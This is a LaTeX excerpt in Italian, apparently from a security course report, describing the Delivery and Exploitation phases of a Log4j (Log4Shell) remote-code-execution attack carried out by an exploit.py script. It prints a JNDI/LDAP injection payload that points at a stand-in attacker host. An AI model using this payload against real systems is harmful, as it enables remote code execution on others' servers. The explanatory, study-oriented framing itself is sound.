 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsubsection{Delivery}
In un attacco che sfrutta Log4j la fase di Delivery non è presente poiché la trasmissione e la seguente esecuzione del malware vengono effettuati durante l'exploit della vulnerabilità legata alla libreria di logging.


\subsubsection{Exploitation}
La fase principale dell'attacco viene attuata sfruttando la vulnerabilità di Log4j per ottenere una RCE (\textbf{Exploit Public-Facing Application
}). 
Lo script \verb!exploit.py! presente nel progetto ha lo scopo di:
\begin{itemize}
    \item Instanziare un server LDAP malevolo in ascolto sulla porta 1389.
    \item Compilare la classe Java da eseguire sulla macchina vittima ed hostare il file \verb!.class! su un server HTTP in ascolto sulla porta 8000.
    \item Generare il payload malevolo per sfruttare la vulnerabilità, formattato come una stringa del tipo: 
    \begin{center}
        \verb!${jndi:ldap://attacker-ldap.com:1389/a}!
    \end{center}
\end{itemize}

\`E possibile osservare lo script in funzione in figura \ref{fig:exploit}.

\begin{figure}
\centering
\includegraphics[width=0.8\textwidth]{img/exploit.png}
\caption{Script di exploit}
\label{fig:exploit}
\end{figure}
\end{document}
